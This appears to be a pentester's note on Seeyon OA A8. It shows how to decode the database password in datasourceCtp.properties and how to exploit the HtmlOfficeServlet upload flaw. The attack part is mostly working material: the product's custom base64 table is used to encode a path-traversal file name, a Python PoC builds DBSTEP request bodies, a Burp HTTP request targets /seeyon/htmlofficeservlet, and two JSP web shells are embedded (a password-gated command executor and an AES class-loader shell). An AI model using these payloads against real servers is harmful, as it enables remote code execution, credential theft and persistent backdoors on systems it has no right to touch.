


# OA-Seeyou note

# 致远OA数据库配置文件

`致远OA数据库配置文件：/opt/Seeyon/A8/base/conf/datasourceCtp.properties`


```
ctpDataSource.minCount=50
mysql.backup.path=
db.hibernateDialect=org.hibernate.dialect.SQLServerDialect
ctpDataSource.username=sa
workflow.dialect=SQLServer
ctpDataSource.driverClassName=com.microsoft.sqlserver.jdbc.SQLServerDriver
ctpDataSource.password=/1.0/UWJ0dHgxc2U=
ctpDataSource.url=jdbc:sqlserver://127.0.0.1:1433;DatabaseName=seeyou2;maxStatements=0;SelectMethod=cursor
mysql.path=
ctpDataSource.maxCount=2000

```

/1.0/UWJ0dHgxc2U= 
提取 UWJ0dHgxc2U= 
解密得到 Qbttx1se
```
echo UWJ0dHgxc2U= |base64 -d
Qbttx1se
```
其中1.0 代表左偏移一位

对应的解密成明文

```
>>> s=""
>>> a = "Qbttx1se"
>>> for i in a:
...     s+= chr(ord(i) -1 )
... 
>>> print s
Passw0rd
>>> 

```

脚本

`python Ddatabase.py`


## HtmlOfficeServlet 中变异base64算法

`seeyon-apps-common.jar!\com\seeyon\ctp\common\office\HtmlOfficeServlet.class`

```
import DBstep.iMsgServer2000;

iMsgServer2000 msgObj = new iMsgServer2000();

String fileName = msgObj.GetMsgByName("FILENAME");
String partitionPath = partitionManager.getPartitionPath(new Date(), false);
String tempPath = partitionPath + File.separator + "taohongTemp";
log.info("tempPath=" + tempPath);
File folder = new File(tempPath);
```


`DBStep.jar!\DBstep\iMsgServer2000.class`

```
private String TableBase64 = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6";
private String TableBase60 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";


    public String DecodeBase64(String Value) {
        ByteArrayOutputStream o = new ByteArrayOutputStream();
        String m = "";
        byte[] d = new byte[4];

        try {
            int count = 0;
            byte[] x = Value.getBytes();

            while(count < x.length) {
                for(int n = 0; n <= 3; ++n) {
                    if (count >= x.length) {
                        d[n] = 64;
                    } else {
                        int y = this.TableBase64.indexOf(x[count]);
                        if (y < 0) {
                            y = 65;
                        }

                        d[n] = (byte)y;
                    }

                    ++count;
                }

                o.write((byte)(((d[0] & 63) << 2) + ((d[1] & 48) >> 4)));
                if (d[2] != 64) {
                    o.write((byte)(((d[1] & 15) << 4) + ((d[2] & 60) >> 2)));
                    if (d[3] != 64) {
                        o.write((byte)(((d[2] & 3) << 6) + (d[3] & 63)));
                    }
                }
            }
        } catch (StringIndexOutOfBoundsException var11) {
            this.FError = this.FError + var11.toString();
            System.out.println(var11.toString());
        }

        try {
            m = o.toString(this.Charset);
        } catch (UnsupportedEncodingException var10) {
            System.out.println(var10.toString());
        }

        return m;
    }

    public String EncodeBase64(String Value) {
        ByteArrayOutputStream o = new ByteArrayOutputStream();
        byte[] d = new byte[4];

        try {
            int count = 0;
            byte[] x = Value.getBytes(this.Charset);

            while(count < x.length) {
                byte c = x[count];
                ++count;
                d[0] = (byte)((c & 252) >> 2);
                d[1] = (byte)((c & 3) << 4);
                if (count < x.length) {
                    c = x[count];
                    ++count;
                    d[1] += (byte)((c & 240) >> 4);
                    d[2] = (byte)((c & 15) << 2);
                    if (count < x.length) {
                        c = x[count];
                        ++count;
                        d[2] = (byte)(d[2] + ((c & 192) >> 6));
                        d[3] = (byte)(c & 63);
                    } else {
                        d[3] = 64;
                    }
                } else {
                    d[2] = 64;
                    d[3] = 64;
                }

                for(int n = 0; n <= 3; ++n) {
                    o.write(this.TableBase64.charAt(d[n]));
                }
            }
        } catch (StringIndexOutOfBoundsException var9) {
            this.FError = this.FError + var9.toString();
            System.out.println(var9.toString());
        } catch (UnsupportedEncodingException var10) {
            System.out.println(var10.toString());
        }

        return o.toString();
    }

    public String GetMsgByName(String FieldName) {
        int i = false;
        int j = false;
        String mReturn = "";
        String mFieldName = FieldName.trim().concat("=");
        int i = this.FMsgText.indexOf(mFieldName);
        if (i != -1) {
            int j = this.FMsgText.indexOf("\r\n", i + 1);
            i += mFieldName.length();
            if (j != -1) {
                String mFieldValue = this.FMsgText.substring(i, j);
                mReturn = this.DecodeBase64(mFieldValue);
                return mReturn;
            } else {
                return mReturn;
            }
        } else {
            return mReturn;
        }
    }
```

## 调用解密算法

```
import DBstep.iMsgServer2000;

public class Demo {
    public static void main(String[] args) {
        iMsgServer2000 msgObj = new iMsgServer2000();
        System.out.println(msgObj.GetMsgByName("qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6"));
    }
}
```
Ps: 需要一些依赖jar才能运行


## 提取关键加密算法

```
import java.io.ByteArrayOutputStream;
import java.io.UnsupportedEncodingException;

public class Main {
    private static String Charset = "GB2312";
    private static String TableBase64 = "gx74KW1roM9qwzPFVOBLSlYaeyncdNbI=JfUCQRHtj2+Z05vshXi3GAEuT/m8Dpk6";
    private static String FError = new String();

    public static String EncodeBase64(String Value) {
        ByteArrayOutputStream o = new ByteArrayOutputStream();
        byte[] d = new byte[4];

        try {
            int count = 0;
            byte[] x = Value.getBytes(Charset);

            while (count < x.length) {
                byte c = x[count];
                ++count;
                d[0] = (byte) ((c & 252) >> 2);
                d[1] = (byte) ((c & 3) << 4);
                if (count < x.length) {
                    c = x[count];
                    ++count;
                    d[1] += (byte) ((c & 240) >> 4);
                    d[2] = (byte) ((c & 15) << 2);
                    if (count < x.length) {
                        c = x[count];
                        ++count;
                        d[2] = (byte) (d[2] + ((c & 192) >> 6));
                        d[3] = (byte) (c & 63);
                    } else {
                        d[3] = 64;
                    }
                } else {
                    d[2] = 64;
                    d[3] = 64;
                }

                for (int n = 0; n <= 3; ++n) {
                    o.write(TableBase64.charAt(d[n]));
                }
            }
        } catch (StringIndexOutOfBoundsException var9) {
            FError = FError + var9.toString();
            System.out.println(var9.toString());
        } catch (UnsupportedEncodingException var10) {
            System.out.println(var10.toString());
        }

        return o.toString();
    }

    public static String DecodeBase64(String Value) {
        ByteArrayOutputStream o = new ByteArrayOutputStream();
        String m = "";
        byte[] d = new byte[4];

        try {
            int count = 0;
            byte[] x = Value.getBytes();

            while (count < x.length) {
                for (int n = 0; n <= 3; ++n) {
                    if (count >= x.length) {
                        d[n] = 64;
                    } else {
                        int y = TableBase64.indexOf(x[count]);
                        if (y < 0) {
                            y = 65;
                        }

                        d[n] = (byte) y;
                    }

                    ++count;
                }

                o.write((byte) (((d[0] & 63) << 2) + ((d[1] & 48) >> 4)));
                if (d[2] != 64) {
                    o.write((byte) (((d[1] & 15) << 4) + ((d[2] & 60) >> 2)));
                    if (d[3] != 64) {
                        o.write((byte) (((d[2] & 3) << 6) + (d[3] & 63)));
                    }
                }
            }
        } catch (StringIndexOutOfBoundsException var11) {
            FError = FError + var11.toString();
            System.out.println(var11.toString());
        }

        try {
            m = o.toString(Charset);
        } catch (UnsupportedEncodingException var10) {
            System.out.println(var10.toString());
        }

        return m;
    }


    /*
    DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce
/
     */
    
    public static void main(String[] args) throws Exception {
        System.out.println("OPTION= " + DecodeBase64("S3WYOSWLBSGr"));
        System.out.println("currentUserId =" + DecodeBase64("zUCTwigsziCAPLesw4gsw4oEwV66"));
        System.out.println("CREATEDATE =" + DecodeBase64("wUghPB3szB3Xwg66"));
        System.out.println("RECORDID =" + DecodeBase64("qLSGw4SXzLeGw4V3wUw3zUoXwid6"));
        System.out.println("originalFileId =" + DecodeBase64("wV66"));
        System.out.println("originalCreateDate =" + DecodeBase64("wUghPB3szB3Xwg66"));
        System.out.println("FILENAME =" + DecodeBase64("qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6"));
        System.out.println("needReadFile =" + DecodeBase64("wLSGP4oEzLKAz4"));
        System.out.println("Encode FILENAME =" + EncodeBase64("..\\..\\..\\ApacheJetspeed\\webapps\\seeyon\\test123456.jsp"));
        
    }
}


```

结果：
```
OPTION= SAVEASIMG
currentUserId= 6993007969600000271
CREATEDATE= 2019-05-20
RECORDID= -5505256504423462237
originalFileId= 1
originalCreateDate= 2019-05-20
FILENAME= ..\..\..\ApacheJetspeed\webapps\seeyon\test123456.jsp
needReadFile= 1558275164
Encode FILENAME= qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
```

## POST报文验证




`python poc.py`

```
while(1):
    # FILENAME = "qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATddA0jcQhUw1TRwYd5nHzs"
    FILENAME=raw_input("path= ")
    # filename = '''<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>'''
    # filename = '''<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("asasd33445".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>'''
    filename=raw_input("filename= ")
    
    for i in xrange(300,400):
        a= 'DBSTEP V3.0     %s             0               %s             DBSTEP=OKMLlKlV\nOPTION=S3WYOSWLBSGr\ncurrentUserId=zUCTwigsziCAPLesw4gsw4oEwV66\nCREATEDATE=wUghPB3szB3Xwg66\nRECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6\noriginalFileId=wV66\noriginalCreateDate=wUghPB3szB3Xwg66\nFILENAME=%s\nneedReadFile=yRWZdAS6\noriginalCreateDate=wLSGP4oEzLKAz4=iz=66\n%s' % (i, len(filename), FILENAME, filename)
        a.replace("\n","\r\n")
        if a.find("File=") == i:
            print
            print a
            print "-"*50
```

Burpsuite

```
POST /seeyon/htmlofficeservlet HTTP/1.1
Host: x.x.x.x:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 436

DBSTEP V3.0     354             0               18             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATddA0jcQhUcATRnYd5NrJ3
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
test23123123123123
```

## jsp 编译目录

`C:/Seeyon/A8/ApacheJetspeed/work/Catalina/localhost/seeyon/org/apache/jsp/`

## 默认账号密码


